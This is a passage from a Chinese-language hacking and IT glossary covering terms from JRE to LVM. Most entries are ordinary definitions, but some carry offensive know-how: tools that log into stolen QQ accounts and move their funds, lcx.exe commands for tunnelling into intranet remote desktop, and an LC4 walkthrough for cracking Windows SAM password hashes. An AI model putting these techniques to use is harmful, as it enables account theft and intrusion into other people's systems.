由于 shadow 文件对于用户都是可读的，所以只要能登入系统，就有机会获取 shadow 然后破解，这样对 Linux 入侵就基本完成了——Linux 的 root 密码被破解的话，整台机子基本上就在掌握之中了。

## JQQ、PQQ、VQQ、DQQ 特定名称

JQQ、PQQ、VQQ、DQQ 都是 QQ 扫信软件，具体来说，就是自动将含有 QQ 账号与密码的邮件（俗称信封）导入这些程序，然后通过这些程序可自动登录其 QQ，并查询 Q 币或游戏币等具体状态，甚至可将它们转移到指定账号。

## JRE 程序语言与开发

JRE 为 Java Runtime Environment 的简称，即 Java 运行环境。运行 Java 程序必须的环境集合，包含 JVM 标准实现及 Java 核心类库。JRE 包括两部分：Java Runtime Environment 和 Java Plug-in。Java Runtime Environment（JRE），是可以在其上运行、测试和传播应用程序的 Java 平台。它包括 Java 虚拟机、Java 平台核心类和支持文件，但不含开发工具——编译器、调试器和其他工具。

JRE 需要辅助软件 Java Plug-in，以便在浏览器中运行 Applet。J2RE 是 Java 2 Runtime Environment 的缩写，也是 Java 运行环境，有时也称 JRE。

如果你只需要运行 Java 程序或 Applet，下载并安装它即可。如果要自行开发 Java 软件，必须要有 JDK，在 JDK 中附带有 JRE。

## JS 程序语言与开发

JS 即 JavaScript 的缩写。

## JScript.Encode 加密解密

JScript.Encode 是用来对网页上的 JavaScript 代码进行加密的，网页代码中某些重要逻辑就可用这个（比如某些敏感文件的路径）。现在这种简单的加密方法可轻松解密，用 JScript.Encode 只能骗骗初学者。

## JSESSIONID 程序语言与开发

JSESSIONID 是 JAVA 技术中所使用的 SESSION。在 J2EE 里，它通常保存在 JSESSIONID cookie 中，当浏览器首次与 WLS 服务器交互时，它会发送一个 JSESSIONID。此后，在 Cookie 超时前，后续交互都将引起浏览器重新发送会话 ID。当然，这个 SESSION 同样可以被窃取，如果有人窃取了他人的会话 ID，同样可以假冒。

## JSP 程序语言与开发

JSP（JavaServer Pages）是目前网络上经常使用的一种动态网页技术，一般网页文件后缀名为 jsp 的就是 JSP 文件。它由 Sun Microsystems 公司倡导，并由许多公司参与建立的一种动态网页技术标准。

JSP 技术有点类似于 ASP，它是在传统网页 HTML 文件（*.htm、*.html）中插入 Java 程序段（Scriptlet）和 JSP 标记（Tag），从而形成 JSP 文件（*.jsp）。

用 JSP 开发的 Web 应用是跨平台的，既能在 Linux 下运行，也能在其他操作系统上运行。JSP 技术可以使用 Java 编程语言编写类 XML 的 Tags 和 Scriptlets，用来封装产生动态网页的处理逻辑。

总的来说，JSP 有以下优点：

- 一次编译，多次、多处运行，代码执行效率高
- 组件的重用性
- 将内容的生成和显示进行分离

JSP 的脚本语言是 JAVA 语言，因此它具有 JAVA 语言的一切特性。同时，JSP 也支持现在大部分平台。当 JSP 第一次被请求时，JSP 页面转换成 Servlet，然后被编译成 .class 文件。以后（除非页面有改动或 Web 服务器被重新启动）再有客户请求该 JSP 页面时，JSP 页面不再被重新编译，而是直接执行已编译好的 .class 文件，因此执行效率特别高。

可重用的、跨平台的 JavaBeans 和 EJB（Enterprise JavaBeans）组件为 JSP 程序的开发提供了方便，我们可将复杂的处理程序（如页面中需要显示的动态内容及对数据库的操作）放到组件中，可多次使用这些组件，极大地减少在 JSP 页面中重写重复的代码。

使用 JSP 技术，Web 页面开发人员可使用 HTML 或者 XML 标识来设计和格式化最终页面，使用 JSP 标识或者脚本来生成页面上的动态内容。生成动态内容的语句一般被封装在 JavaBean 组件、EJB 组件或 JSP 脚本段中，这样，页面设计人员和页面编程人员可同步进行工作。

另外，在客户端通过查看源文件是看不到 JSP 标识语句的，更看不到 JavaBean 和 EJB 组件，也有效地保护了源程序代码。

目前，JSP 已与 ASP、PHP 构成互联网主要的三大脚本语言，使得互联网更加丰富多彩。

## JSP WebShell 渗透技术

指用 JSP 技术编写的 WebShell。

## JVM 程序语言与开发

JVM 是指 Java 的虚拟机，它是一种用于计算设备的规范，可用不同的方式（软件或硬件）加以实现。编译虚拟机的指令集与编译微处理器的指令集非常类似。Java 虚拟机包括一套字节码指令集、一组寄存器、一个栈、一个垃圾回收堆和一个存储方法域。

Java 虚拟机是个想像中的机器，在实际的计算机上通过软件模拟来实现，简单地说就是可运行 Java 代码的假想计算机。它有自己想像中的硬件，如处理器、堆栈、寄存器等，还具有相应的指令系统，只要根据 JVM 规格描述将解释器移植到特定计算机上，就能保证经过编译的任何 Java 代码能在该系统上运行。

## K-Meleon CCF ME 应用程序

K-Meleon CCF ME 是款超快速非 IE 引擎网页浏览器，其界面模仿 IE 风格，并能使用 IE 的书签。内置 RSS 新闻浏览支持、网页翻译（Google 引擎）等实用功能。使用的 Mozilla 引擎版本是 Gecko 1.7.5，与 Firefox 1.0 相同。由于 K-Meleon 使用的是 Windows Native Interface，没有使用 XUL，使其在缺少 XUL 支持的前提下获得了比 Firefox/Mozilla Suite 等 Gecko 浏览器更快速的浏览及开启速度，获得了更少的资源占用特性。

## Kerberos 安全技术

Kerberos 是一种常用的网络认证协议，其设计目标是通过密钥系统为客户机／服务器应用程序提供强大的认证服务。这一名词来源于希腊神话“三个头的狗——地狱之门守护者”。

该认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可被任意地读取、修改和插入数据。在以上情况下，Kerberos 作为一种可信任的第三方认证服务，是通过传统的密码技术（如共享密钥）执行认证服务的，例如 IPsec 就是 Kerberos 技术应用的典型。

### 认证过程具体如下：

客户机向认证服务器（AS）发送请求，要求得到某服务器的证书，然后 AS 的响应包含这些用客户端密钥加密的证书，证书的构成为：1、服务器“Ticket”；2、一个临时加密密钥（又称为会话密钥“Session Key”）。

客户机将 Ticket（包括用服务器密钥加密的客户机身份和一份会话密钥的拷贝）传送到服务器上，会话密钥可以（现已由客户机和服务器共享）用来认证客户机或认证服务器，也可用来为通信双方以后的通信提供加密服务，或通过交换独立于会话密钥为通信双方提供进一步的通信加密服务。

上述认证交换过程需要用只读方式访问 Kerberos 数据库，但有时数据库中的记录必须进行修改（如添加新的规则或改变规则密钥时）。修改过程通过客户机和第三方 Kerberos 服务器（Kerberos 管理器 KADM）间的协议完成，有关管理协议在此不做介绍。

另外也有一种协议用于维护多份 Kerberos 数据库的拷贝，这可以认为是执行过程中的细节问题，并且会不断改变，以适应各种不同数据库技术。

Kerberos 协议主要用于计算机网络的身份鉴别（Authentication），其特点是用户只需输入一次身份验证信息就可凭此验证获得的票据（ticket-granting ticket）访问多个服务，即 SSO（Single Sign On）。由于在每个 Client 和 Service 之间建立了共享密钥，使得该协议具有相当的安全性。

## KAV 应用程序，安全技术

KAV 是 Kaspersky Anti-Virus 的缩写，中文称为卡巴斯基杀毒软件，是目前主流反病毒软件之一，由俄罗斯的 Kaspersky Lab（卡巴斯基实验室）研制。

1989 年，卡巴斯基实验室的创始人 Eugene Kaspersky 开始研究计算机病毒现象。从 1991 年到 1997 年，他在俄罗斯大型计算机公司“KAMI”的信息技术中心，带领一批助手研发出了 AVP 反病毒程序。Kaspersky Lab 在他的领导下于 1997 年成立。

在杀毒软件的历史上有这样一个世界纪录：让一个杀毒软件的扫描引擎在不使用病毒特征库的情况下，扫描一个包含当时已有的所有病毒的样本库，结果仅仅靠“启发式扫描”技术，该引擎创造了 95% 检出率的纪录！这个纪录就是由 AVP 创造的。

2000 年 11 月，AVP 更名为 Kaspersky Anti-Virus。Eugene Kaspersky 是计算机反病毒研究员协会（CARO）的成员。卡巴斯基总部设在俄罗斯首都莫斯科，Kaspersky Labs 是国际著名的信息安全领导厂商，公司为个人用户、企业网络提供反病毒、防黑客和反垃圾邮件产品。经过多年与计算机病毒的战斗，被众多计算机专业媒体及反病毒专业评测机构誉为病毒防护的最佳产品。

卡巴斯基有很高的警觉性，它会提示所有具有危险行为的进程或者程序，因此很多正常程序就会被它“误报”，所以卡巴也经常出现“误杀门”事件。但是总体来说，卡巴斯基的杀毒能力确实是同类型产品中的佼佼者。

卡巴的特点如下：  
对病毒上报反应迅速，并具有全球技术领先的病毒运行虚拟机，可以自动分析 70% 左右未知病毒的行为，再加上一批高素质的病毒分析专家，反应速度快于其他厂商。随时修正自身错误，只要用户去信指出，误杀误报会立刻得到纠正。知错就改，堪称其他杀软的楷模！其具有的超强脱壳能力，无论你的程序怎么加壳，只要程序体还能运行，就逃不出卡巴斯基的掌心。

## KDE 操作系统及其相关

KDE（KDesktop Environment）是用于 Unix/Linux 下的桌面环境。装上 KDE 后就能够像 Windows 一样让 Linux 系统有一个可视化的桌面环境。它建立在 XFree86 和 QT 的基础上，提供一个窗口管理器和许多实用工具，包括浏览器、文字处理软件、电子表格程序、演示文稿程序、游戏和大量的其他工具，并提供了极强的个性化能力。

和一些如 GNU/Linux 这样的自由类 Unix 一样，Unix/KDE 组成了一个对于任何人都可用的完全自由和开放的使用平台，而且完全免费，任何人都可以修改它的源代码。

对操作系统用户来说，KDE 会带来下面这些东西：

- 一个美观的现代化桌面；
- 一个完整的具有网络透明性的桌面；
- 一个方便的集成帮助系统，提供了对 KDE 桌面及其应用程序帮助的一致化访问途径；
- 所有的 KDE 应用程序都具有统一的视觉观感；
- 标准化的菜单、工具栏、键盘绑定、颜色样式等等；
- 国际化支持，KDE 已拥有 60 余种语言的翻译；
- 集中化组织的对话框系统，由具体的桌面配置来运作；
- 大量优秀的 KDE 应用程序；
- ……

## Kismet 应用程序

Kismet 是款基于 802.11 layer 2 的无线网络嗅探器，可嗅探 802.11b、802.11a、802.11g 以及用于几乎所有支持 Linux 的网卡，如图 K-1 所示。除 Linux 外，它还支持 FreeBSD、OpenBSD、Mac OS X 系统，主要功能有：自定义多种数据包资源捕获、以 AP、MAC 地址索引即时网络、通过 ARP 和 DHCP 探测 IP 地址中断、通过 CDP 探测 Cisco 产品等。

## Kubuntu（操作系统及其相关）

Kubuntu 基于 **KDE** 桌面环境，是很方便用户使用的操作系统。Kubuntu 作为 Ubuntu 计划的一部分，每隔 6 个月发布一个新版本，所有人都可以使用它。详情请见 **Ubuntu** 词条。

## L2TP（黑客技术基础）

**L2TP** 即带有 Internet 协议安全性的第二层隧道协议（L2TP），它是 Windows 家族中两种基于点对点协议（PPP）的 VPN 技术之一（另一种为 **PPTP**）。

L2TP 将用户级别的 PPP 身份验证方法和计算机级别的证书，与用于数据加密的 **IPSec** 或隧道模式中的 IPSec（IPSec 本身在其中仅对 IP 通信提供封装）一起使用。

通过使用虚拟专用网（**VPN**）连接和第二层隧道协议（L2TP），可通过 Internet 或其他公共网络访问专用网。

与 PPTP 一样，L2TP 也会压缩点对点协议（PPP）帧，从而压缩 IP、IPX 或 NetBEUI 协议，因此允许用户远程运行依赖特定网络协议的应用程序。

## LAMP（WEB 及相关技术）

**LAMP** 是 Linux+Apache+MySQL+Perl/PHP/Python 的缩写，它指一组通常一起使用来运行动态网站或者服务器的开源软件，包括 **Linux** 操作系统、**Apache** 网络服务器、**MySQL** 数据库、**Perl**、**PHP** 或者 **Python** 编程语言，这些产品共同组成了一个强大的 **Web** 应用程序平台。

虽然这些开源程序本身并未设计成同另外几个程序一起工作，但由于它们都是影响较大的开源软件，拥有很多共同特点，所以导致了这些组件经常一起使用。在过去几年里，这些组件的兼容性不断完善，在一起的应用情形变得更加普遍。并且它们为了改善不同组件之间的协作，已创建了某些扩展功能。

## LAN（黑客技术基础）

局域网（Local Area Network），简称 **LAN**，是指在某一区域内由多台计算机互联形成的计算机组。“某一区域”指的是同一办公室、同一建筑物、同一公司或同一学校等，一般是方圆几千米以内。

局域网是封闭型的，可由办公室内的两台计算机组成，也可由一个公司内的上千台计算机组成。由于较小的地理范围，LAN 通常要比广域网（**WAN**）具有更高、更快的传输速率。

局域网可实现文件管理、应用软件共享、打印机共享、扫描仪共享、工作组内的日程安排、电子邮件和传真通信服务等功能。

## LAND 攻击（安全技术）

早期的 **DoS** 攻击方式。在 Land 攻击中，数据包的源地址与目的地址都被设置为目标 IP 地址，这样将导致接收服务器向它自己的地址发送 **SYN/ACK** 数据包，结果这个地址又发回 **ACK** 消息，并创建一个空连接。每个这样的连接都将被保留，直到超时。

这种包可造成被攻击主机因试图与自己建立连接而陷入死循环，从而很大程度地降低了系统性能。各系统对 Land 攻击反应不同，许多 **Unix** 系统会崩溃，而 **Windows** 会变得极其缓慢（大约持续五分钟）。

**ISP** 可在边缘路由器的进入端口上安装过滤器，对所有入内数据包的 IP 源地址进行检查，这样就可阻止发生在会聚点后的 LAND 攻击。如果该源地址的前缀在预先规定的范围之内，则该数据包被转发，否则被丢弃。

## LANGUAGE2000（加密解密）

LANGUAGE2000 侦壳工具是款 Windows 下的软件，用于查看软件壳和其他相关信息。

## LSASS（操作系统及其相关）

LSASS（Local Security Authority Service，即本地安全授权服务）是 Windows 的系统进程，进程文件为 lsass.exe，它用于实现 Windows 系统的安全机制，如本地安全和登录策略等。震荡波正是利用的这个程序的漏洞，而它也因为震荡波而闻名于世。

## Lcx.exe（黑客工具）

Lcx.exe 是个很方便的端口转发工具，它与普通端口转发工具有所不同。普通端口转发工具是被动监听端口，等待远程主机连接后再进行转发。比如要连接到内网主机就必须要一台有公网 IP 的主机，即至少要三台计算机。而 Lcx.exe 是主动连接远程主机，TCP 连接建立后再进行端口转发，这样不仅穿透防火墙的效果更好，而且也只需两台计算机，不过需要其远程主机有公网 IP。其原理如图 L-2、图 L-3（注意连接箭头方向）所示。

图 L-3 表示在远程主机上同时监听 51 端口和 3389 端口，Lcx 在远程主机上主动连接到本地主机的 51 端口，建立 TCP 连接后再连接本机的 3389 端口，这样就可以连接到内网主机的 3389 端口。具体操作如下：

首先在本地主机下运行：`lcx.exe -listen 51 3389`，意思是监听 51 端口并转发到 3389 端口。显示如下：

```
[+] Listening port 51
[+] Listen OK!
[+] Listening port 3389......
[+] Listen OK!
[+] Waiting for Client on port 51 ......
```

然后在内网主机上运行：`lcx.exe -slave 63.208.xx.xx 51 192.18.2.55 3389`，其中 63.208.xx.xx 是本地主机的 IP。运行后本机监听端口就会收到信息：

```
[+] Listening port 51 ......
[+] Listen OK!
[+] Listening port 3389 ......
[+] Listen OK!
[+] Waiting for Client on port 51 ......
[+] Accept a Client on port 55 from 202.103.xx.xx ......
[+] Waiting another Client on port 3389....
```

然后直接连接自己的 IP，就连接到了内网主机的端口上了。

## LeapFTP（应用程序）

LeapFTP 是款小巧强大的 FTP 工具，具有友好的用户界面和稳定的传输速度，能连接绝大多数 FTP 站点（包括一些教育网站点）。LeapFTP 与 FlashFXP 和 CuteFTP 堪称 FTP 三剑客，它们各自拥有不同的特点。FlashFXP 传输速度较快，但有时对于一些教育网 FTP 站点却无法连接；CuteFTP 虽然相对来说比较庞大，但其自带了许多免费 FTP 站点，资源丰富。

LeapFTP 有跟 Netscape 相仿的书签形式，连线更加方便；下载与上传文件支持续传，可下载或上传整个目录，亦可直接删除整个目录，并让你通过编列顺序一次下载或上传同一站点中不同目录下的文件；浏览网页时若在文件链接上按鼠标右键，选“复制捷径”便会自动下载该文件；其具有不会因闲置过久而被站点踢出的功能，还可直接编辑远端 Server 上的文件，并提供文件传送完毕自动中断连接等功能设置。

## Linux（操作系统及其相关）

Linux 是种计算机操作系统，是自由软件和开放源代码发展中最著名的操作系统。严格来讲，Linux 这个词本身只表示 Linux 内核，但在实际中，人们已习惯了用 Linux 来形容整个基于 Linux 内核并使用 GNU 工程各种工具和数据库的操作系统（也被称为 GNU/Linux）。

Linux 内核最初是为英特尔 386 微处理器设计的，现在 Linux 内核支持从个人电脑到大型主机甚至包括嵌入式系统在内的各种硬件设备。

Linux 的历史是和 GNU 紧密联系在一起的，从 1983 年开始的 GNU 计划致力于开发一个自由且完整的类 Unix 操作系统，包括软件开发工具和各种应用程序。到 1991 年 Linux 内核发布时，GNU 几乎已完成了除系统内核之外的各种必备软件开发。

在 Linus Torvalds 和其他开发人员的努力下，GNU 组件可运行于 Linux 内核之上。整个内核基于 GNU 通用公共许可，也就是 GPL（GNU General Public License，GNU 通用公共许可证），但 Linux 内核并不是 GNU 计划的一部分。1994 年 3 月，Linux 1.0 版正式发布，Marc Ewing 成立了 Red Hat 软件公司，成为最著名的 Linux 分销商之一。

Linux 的标志和吉祥物是只名叫 Tux 的企鹅；其由来是因为 Linus 在澳洲时被动物园里的一只企鹅咬了一口。Linux 的注册商标是 Linus Torvalds 所有，这是因为在 1996 年，一个名叫 William R. Della Croce 的律师开始向各个 Linux 发布商发信，声明他拥有 Linux 商标的所有权，并要求各个发布商支付版税。这些发行商集体进行上诉，要求将该注册商标重新分配给 Linus Torvalds。Linus Torvalds 一再声明 Linux 是免费的，他本人可以卖掉，但 Linux 绝不能卖。

开始的时候，Linux 只是个人狂热爱好的一种产物。但现在，Linux 已成为受到广泛关注和支持的操作系统，连 IBM 和惠普在内的一些计算机业巨头也开始支持 Linux。很多人认为，和其他商用 Unix 系统及微软 Windows 相比，作为自由软件的 Linux 具有成本低、安全性高、更加可靠等优势。

**我们平时常说的 Linux 操作系统是指 Linux 发行版（通常被称为“distro”）的一部分**，这些发行版由个人、松散组织的团队及商业机构、志愿者组织编写。它们通常包括了其他的系统软件、应用软件、一个用来简化系统初始安装的安装工具和让软件安装升级的集成管理器。

发行版为许多不同目的而制作，包括对不同计算机结构的支持、对一个具体区域或语言的本地化、实时应用和嵌入式系统，甚至许多版本故意只加入免费软件。目前，超过三百个发行版被积极地开发，最普遍被使用的发行版大约有十二个。虽然 Linux 的发行版众多，但内核都基本一致。

一个典型的 Linux 发行版包括：Linux 内核、一些 GNU 程序库和工具、命令行 shell、图形界面的 X Window 系统、相应的桌面环境（如 KDE 或 GNOME），并包含数千种从办公套件、编译器、文本编辑器到科学工具的应用软件。

目前最著名的发行版有 Debian、RedHat、Ubuntu、Suse、CentOS、Fedora 等。另外，Linux 发行版的某些版本不需要安装，只需通过 CD 或可启动的 USB 存储设备就能使用，它们称为 LiveCD。

## Linux Kernel（操作系统及其相关）

**Linux Kernel** 即 Linux 的内核，它与其他操作系统的内核一样，是整个系统的核心部分，主要负责资源分配、硬件接口、安全、简单通信以及基本的文件系统管理。

### 什么是操作系统？

操作系统是一个用来和硬件打交道，并为用户程序提供一个有限服务集的低级支撑软件。一个计算机系统是硬件和软件的共生体，它们互相依赖，不可分割。计算机的硬件含有外围设备、处理器、内存、硬盘和其他电子设备，由它们组成计算机的发动机。但如果没有软件来操作和控制它，自身是不能工作的，完成这个控制工作的软件就称为操作系统。

操作系统在 Linux 的术语中被称为“内核”，也可称为“核心”。Linux 内核的主要模块（或组件）分为存储管理、CPU 和进程管理、文件系统、设备管理和驱动、网络通信，以及系统的初始化（引导）、系统调用等几个部分。

一般可从 Linux 内核版本号来区分系统是 Linux 稳定版还是测试版。以版本 2.4.0 为例，2 代表主版本号，4 代表次版本号，0 代表改动较小的末版本号。在版本号中，序号的第二位为偶数的，表明这是一个可使用的稳定版本，如 2.2.5；而序号的第二位为奇数的，一般有新东西加入，是个不一定稳定的测试版本，如 2.3.1。这样，稳定版本来源于上一个测试版，而一个稳定版本发展到完全成熟后就不再发展。

### Linux 目录结构（操作系统及其相关）

即指 Linux 根目录下的系统子目录结构，一般有如下目录：

- `/bin`：bin 是 Binary 的缩写，这个目录存放着最常用的命令。
- `/boot`：这里存放的是启动 Linux 时使用的一些核心文件，包括一些链接文件以及镜像文件。
- `/dev`：dev 是 Device（设备）的缩写，该目录下存放的是 Linux 的外部设备。在 Linux 中访问设备和访问文件的方式是相同的。Linux 把所有的外设都看成是一个文件，即用户对代表该外设的文件操作，就表示对该外设的操作。所以，`/dev` 对于系统而言相当重要。
- `/etc`：这个目录用来存放所有系统管理所需要的配置文件和子目录。
- `/home`：用户的主目录，在 Linux 中，每个用户都有一个自己的目录。
- `/lib`：这个目录里存放着系统最基本的动态链接共享库，其作用类似于 Windows 里的 DLL 文件，几乎所有的应用程序都需要用到这些共享库。
- `/lost+found`：这个目录一般情况下是空的，当系统非法关机后，这里就存放了一些文件。
- `/mnt`：这里面有四个目录，系统提供这些目录是为了让用户临时挂载别的文件系统。我们将光驱挂载在 `/mnt/cdrom` 上，然后进入该目录，就可查看光驱里的内容了。
- `/proc`：这个目录是个虚拟目录，它是系统内存的映射。我们可通过直接访问这个目录来获取系统信息。
- `/root`：该目录为系统管理员，也称作超级权限者的用户主目录。
- `/sbin`：s 就是 Super User 的意思，这里存放的是系统管理员使用的系统管理程序。
- `/tmp`：这个目录用来存放一些临时文件。
- 我们要用到的很多应用程序和文件几乎都放在 `/usr` 目录下：
  - `/usr/X11R6`：存放 X-Windows 的目录；
  - `/usr/games`：存放着 XteamLinux 自带的小游戏；
  - `/usr/bin`：存放着许多应用程序；
  - `/usr/sbin`：存放 root 超级用户使用的管理程序；
  - `/usr/doc`：Linux 技术文档；
  - `/usr/include`：用来存放 Linux 下开发和编译应用程序所需要的头文件；
  - `/usr/lib`：存放一些常用的动态链接共享库和静态档案库；
  - `/usr/local`：这是提供给一般用户的 `/usr` 目录，安装一般的应用软件；
  - `/usr/man`：帮助文档所在的目录；
  - `/usr/src`：Linux 开发的源代码就在这个目录，爱好者们别放过哦。
- `/var`：这个目录中存放着在不断扩充的东西，我们习惯将那些经常被修改的目录放在这个目录下，包括各种日志文件。如果你想做一个网站，也会用到 `/var/www` 这个目录。

## LISTEN（黑客技术基础）

一般指端口监听。如果一个程序想要与网络上的其他主机通信，它就必须开启一个端口，并且监视流经该端口的数据流，这个过程就叫做端口监听。

## LiveCD（操作系统及其相关）

一般指放入计算机后可直接使用其中系统的 CD。很多 Linux 发行版本已被设计为所谓的“LiveCD”，即可直接引导为可用 Linux 系统的 CD。

与大多数广为应用的发行版本中可使用的“拯救模式（rescue mode）”引导选项相反，这些 LiveCD 的设计是：当从 CD 引导起来后，提供一整套可使用的工具，其中有一些是通用的，有一些是高度专用的。

Linux 的 LiveCD 发行版本已有若干年历史，但近一两年这种发行版本的数量已增加了好几倍。现在的大部分专用 LiveCD 都起源于 LinuxTag 的 Knoppix 发行版本，那是个非常成功的发行版本。新奇的 LiveCD 发行版本一般来讲很像新的 Linux 发行版本，为不同的用户群包装不同的软件集，而且为了体现创建者的思想，它们也包装了微调配置和设置细节。

## LM（黑客技术基础）

LM 是 LAN Manager（LAN 管理器）的缩写，它是 NT 平台的身份验证子系统的核心之一（另一个为 NTLM）。SMB 会话劫持正是利用的 LM 脆弱的安全机制。

## LMHOSTS（操作系统及其相关）

LMHOSTS 文件与 HOSTS 文件相似，也是用来进行 NetBIOS 名静态解析的。将 NetBIOS 名和 IP 地址对应起来，功能类似于 DNS，只不过 DNS 是将域名/主机名和 IP 对应。

LMHOSTS 文件是个纯文本文件，微软提供了一个示例程序 LMHOSTS.SAM，位于 `C:\WinNT\System32\Drivers\Etc` 目录下（此目录可参照自己的实际安装情况灵活改变）。如果我们需启用 LMHOSTS 文件查询，则应将其改名为 LMHOSTS。建议使用制作副本的方法，即另存为 LMHOSTS，这样可免除因原文件改错而不得不从安装光盘里解压还原的麻烦。

## Load_file（数据库）

Load_file() 是 MySQL 的一个常用函数，该函数的作用是读入文件，并将文件内容作为一个字符串返回。在 PHP+MySQL 进行 SQL 注入时常会用到这个函数，用以查看指定文件的内容，其典型过程请见 PHP 注入。

## LocalHost（黑客技术基础）

LocalHost 是默认的本地域名，这个可用来代替本地的 IP 地址。例如本机上已经有 HTTP 服务，则在浏览器中输入 `http://LocalHost` 就可访问本地的 HTTP 服务。

## Log Monitor（安全技术）

Log Monitor 是款文件及文件夹监控程序，可定时监控文件的“修改时间”是否改变，文件夹内部的文件是否被修改、添加或删除，如果改变则执行指定程序。研究病毒或木马时可用它来很好地监视系统，从而知道它们修改或添加了哪些文件。

## LOGOFF（操作系统及其相关）

Windows 系统命令，需装有终端服务后才能启用，一般用来注销特定用户。这个命令一般用在：管理员想登录远程终端，但终端可允许的用户数已达到最大值时，可用该命令注销其中某一用户后再登录。

此时可以注销其他用户（即将其踢下服务器），这样就能顺利登录。LOGOFF 在渗透时也经常使用，其使用格式是：**LOGOFF 指定用户的 ID 号**，而用户的 ID 号可以通过 `query user` 命令获得。

## Longhorn任务管理器｜操作系统及其相关

Longhorn 本来是作为微软公司新一代操作系统名字的，也就是现在我们所熟悉的 Vista 了。比起 Vista，Longhorn 似乎对于大耗资源的效果并没有那么在意，但其性能与安全性有了很大的提高。Longhorn 的任务管理器功能比以前版本更强大，性能更稳定，其界面如图 L-5。


## LOPHTCRACK｜黑客工具

LOPHTCRACK（简称 LC）是美国著名计算机安全公司 @Stake 出品的 Windows/Unix 密码查找软件，是网络管理员的必备工具，可用来检测 Windows、Unix 用户是否使用了不安全的密码，同样也是最好、最快的 Win NT/2000/XP/Unix 管理员账号密码破解工具。

事实证明，简单的或容易被破解的管理员密码是最大的安全威胁之一，因为攻击者往往以合法的身份登录计算机系统而不被察觉。

该软件也是破解 Windows 系统密码的超级利器，下面简单介绍一下 LC4 的使用过程。图 L-6 是 LC4 破解 Windows 密码后的界面。

利用 LC4 破解密码十分简单，运行它并新建一个任务，然后依次点击“Import”→“Import from SAM file”，打开待破解的 **SAM** 文件，此时 LC4 会自动分析此文件，并显示出文件中的用户名。之后点击“Session”→“Begin Audit”即可开始破解密码。

如果密码不是很复杂，很快就会得到结果。因为 SAM 文件一般只允许 SYSTEM 访问，所以必须用特殊工具（如冰刃）将它复制出来，或者用 Pwdump 将其从内存中导出，再用 LC4 打开后破解。

LC4 具有一个非常重要的优点：在 Windows 系统工作期间，SAM 储存在电脑内存中，而 LC4 却可以从内存中读取这个文件。即如果在本机使用，可直接从内存中导出密码散列。

使用 LC4 破解 Windows 密码，用户可在不同破解方法间进行选择。除了暴力破解法外，还可使用字典（Dictionary）方法。LC4 提供的字典方法有一个特别之处，那就是可向现有字典中添加字母和字符。因此，LC4 可通过字典方法快速找到诸如“Haus99”一类的密码。对于 Windows 密码的破解来说，LC 是目前最好的工具。


## LORDPE｜加密解密

一款 PE 编辑工具，号称是“最好的 PE 文件修改工具”，如图 L-7 所示。


## LSA溢出漏洞｜安全技术

LSA 服务是 Windows 系统中一个相当重要的服务，所有安全认证相关的处理都要通过这个服务。该服务在记录日志时会调用 Vsprintf() 函数，但对提供给这个函数的字符串参数缺少正确的边界检查，发送超长的字符串可导致缓冲区溢出，进而执行任意代码，完全控制系统。

## LSB｜操作系统及其相关

LSB 是 Linux Standard Base 的缩写。LSB 的目标是制定标准，提高 Linux 系统与其他相似系统的兼容性。LSB 标准定义了二进制环境，符合 LSB 的应用程序可在其中运行。

在 90 年代中期，Linux 也开始为了自己的标准化而努力。实际上，Linux 一直都试图遵守 POSIX 标准，因此在源码级上具有很好的兼容性，然而对于 Linux 来说，仅仅保证源码级的兼容性还不能完全满足要求。在 Unix 时代，大部分系统都使用的是专有硬件，软件开发商必须负责将自己的应用程序从一个平台移植到其他平台上；每个系统的生命周期也很长，软件开发商可投入足够的资源为各个平台发布二进制文件。

然而 Linux 使用最广泛的 x86 通用平台的发行版众多，发展很快，软件开发商不可能为每个发行版都发布一个二进制文件。因此，就为 Linux 上的标准化提出了一个新要求：二进制兼容性，即二进制程序不需重新编译就可在其他发行版上运行。

实际上，在 Linux 社区中，第一个标准化努力是文件系统层次标准（Filesystem Hierarchy Standard, FHS），用来规范系统文件、工具和程序的存放位置以及系统中的目录层次结构，例如 ifconfig 命令应放在 /usr/bin 还是 /usr/sbin 目录中，光驱应挂载到 /mnt/cdrom 还是 /media/cdrom 中。这些需求最终共同促进了 LSB 项目的诞生。

**LSB 由 FSG 开发和维护。FSG 是个独立的非营利组织，该组织专注于通过发展和促进标准来加速开放源码软件。** 几年前，一些志愿者发起了 LSB 项目，LSB 项目的目的是发展和改进标准，提高 Linux 和其他类似系统间的兼容性，使应用软件可在任何系统上运行。LSB 标准定义了一个二进制环境和与之相关的标准文档，在这个二进制环境中，任何一个符合 LSB 标准的应用程序都能正常运行。

LSB 标准文档包括了一系列基础 API、库和互用性标准，还包括了测试套件、开发环境、执行案例和开发文档。随着 LSB 开发的深入，一些大的 Linux 发行商开始积极参与其中，一些大型企业（如 HP 和 IBM 等）也逐渐加入。

## LSOF｜操作系统及其相关

**LSOF** 的全称是 List Open Files，可用来查看正在运行中的进程打开了哪些文件、目录和套接字，是系统监测工具之一。一般情况下，**root** 用户才能执行 LSOF 命令，普通用户可看见 /usr/sbin/lsof 命令，普通用户执行会显示“Permission denied”。

## LTSP｜操作系统及其相关

LTSP 是 “Linux Terminal Server Project” 的缩写，它与 Windows 上的终端服务相似，只不过它是运行在 Linux 的平台上。LTSP 能支持许多带有完全相同环境的工作站，所有的应用都在服务器端运行，使用者可使用陈旧的 PC 进入 X 终端，以减小花费和维护，特别是在所登录的每台电脑需要一致工作空间的地方（如学校或公司）。

## LumaQQ｜应用程序

LumaQQ 是个多平台的第三方 QQ 客户端，在 Linux 系统中使用最广泛，具有可重用的纯 Java 核心和基于 SWT 的仿 QQ 界面。由于腾讯没有出 Linux 版 QQ，所以这也极大地方便了 Linux 下的 QQ 用户。

## LVM｜操作系统及其相关

LVM 是逻辑卷管理（Logical Volume Manager）的简称，是 Linux 环境下对磁盘分区进行管理的一种机制。LVM 可提高磁盘分区管理的灵活性。

LVM 是在磁盘分区和文件系统间添加的一个逻辑层，用来为文件系统屏蔽下层磁盘分区布局，提供一个抽象的盘卷，在盘卷上建立文件系统。

物理卷（Physical Volume）就是指硬盘分区或从逻辑上与磁盘分区具有同样功能的设备（如 RAID），是 LVM 的基本存储逻辑块，但和基本的物理存储介质（如分区、磁盘等）比较，却包含有与 LVM 相关的管理参数。

